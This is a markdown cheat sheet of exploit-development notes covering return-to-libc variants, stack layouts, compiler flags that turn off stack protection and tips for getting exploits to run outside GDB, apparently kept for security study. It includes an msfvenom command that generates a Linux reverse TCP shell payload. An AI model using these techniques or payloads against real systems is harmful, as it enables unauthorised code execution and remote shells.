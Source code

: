 ```yaml
---
layout: page
title:  "Some exploitation tricks"
permalink: "tricks.html"
tags: [security, exploitation]
summary: "Various useful information when developing exploits"
---
```



## A few techniques
* In case a function is in an ASCII Armored Address Space, return to the PLT's
  entry address of that function.

  Limitation: the function must be used in the binary (have a PLT entry)
* ret2reg: use an address contained in a register and search for call instructions with that register

### ret2libc
* ret2libc targets: `system()` on Linux, `WinExec(), LoadLibraryA()` on Windows
* Limitation of ret2libc: injecting NULL bytes

#### ret2strcpy
* Particular case of ret2libc
* Works with functions that can copy memory blocks:
  `strcpy(), sprintf(), memcpy()...`
* Goal: return to `strcpy()` to copy code on an NX stack to a location with
  the X bit set.
* Stack layout:

```
(lower addresses)

&strcpy()   ; Address of strcpy() function
dest_ret    ; Where to go after the copy
dest        ; Executable location
src         ; Injected code address

(higher addresses)
```

#### ret2gets
* Particular case of ret2libc. Similar to ret2strcpy
* Works with functions that receive input:
  `gets(), read(), recv(), recvfrom()...`
* Stack layout:

```
(lower addresses)

&gets()     ; Address of gets() function
dest_ret    ; Where to go after
dest        ; Executable location

(higher addresses)
```

## ret2dl-resolve
* Return into the ELF's dynamic linker's resolver (*ld.so*) to return to
  functions in the PLT that are not used in the binary



## Tools
* [Custom tools](https://github.com/greglan/sec-tools)
* [Exploit wrapper in C](https://github.com/greglan/sec-tools/blob/master/shellcode_wrapper.c)
* [Bash script](https://github.com/greglan/sec-tools/blob/master/try_exploit.sh)
* View instructions encoding of binary: `objdump -D -b binary -m i386 -M intel filename.bin`
* Memory map in file: `/proc/$PID/maps`
* Check the stack flags: `readelf -l prog_name | grep GNU_STACK`
* List available payloads: `msfvenom -l payloads`
* Show options of a sepcific payload: `msfvenom -p linux/x64/shell_reverse_tcp --payload-options`
* Generation of a payload:

```
msfvenom -p linux/x64/shell_reverse_tcp \ # Specify the payload
            LHOST=127.0.0.1             \ # Parameter from the payload's options
            LPORT=4444                  \ # Parameter from the payload's options
         -b '\x00'                      \ # Test for undesired bytes
         -f python                        # Output format of the payload
```

### Compilation flags
* Enable GDB debugging symbols (gcc): `-ggdb`
* Compile for 32bit systems (gcc): `-m32`
* Disable stack smashing protection (gcc): `-fno-stack-protector`
* Allow stack execution (gcc): `-z execstack`
* Force 32 bits executables (ld): `-m elf_i386`


## Exploitation outside of a debugger
* Have exactly the same environment variables, otherwise the stack is shifted. Most notably, remove the `LINES` and `COLUMNS` variables in GDB
* Start the binary from the same directory, else some envar may change (`PWD, OLDPWD`)
* Use existing envar and try to keep the length the same
* Start the debugger and program using the absolute path
* [StackOverflow on exploitation outside GDB](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it/17775966#17775966)
* [Some other tips on exploitation outside of GDB](https://www.roguesecurity.in/2018/01/13/buffer-overflow-series-exploit-failing-outside-gdb/)
* [Test if a payload contains filtered bytes](https://github.com/greglan/sec-tools/blob/master/check_bad_bytes.py)
* Keep stdin open: `(cat /tmp/payload;cat) | `
* [Why SUID Binary exploit does not yield root shell](https://archive.cert.uni-stuttgart.de/vuln-dev/2003/03/msg00024.html)

### Fixing addresses
* Get addresses of buffers: `ltrace prog_name`
* Return to `printf` so that we get an output of what is the target. Then fix the addresses by trial and error [1]


## Resources and references
* [[1] Blopost on exploitation outside GDB](https://www.roguesecurity.in/2018/01/13/buffer-overflow-series-exploit-failing-outside-gdb/)
* [Example of function hooking in Linux using LD_PRELOAD](https://blog.netspi.com/function-hooking-part-i-hooking-shared-library-function-calls-in-linux/)
* [Another example of function hooking in Linux](https://opensourceforu.com/2011/08/lets-hook-a-library-function/)
* [Information about race conditions](https://www.win.tue.nl/~aeb/linux/hh/hh-9.html)
* [Binding TCP shellcode](https://reboare.github.io/slae/slae1.html)
* [sh vs bash](https://beta.hackndo.com/sh-vs-bash/)
* [The Shellcoder's handbook]
* [Smashing the stack for fun and profit](http://phrack.org/issues/49/14.html)
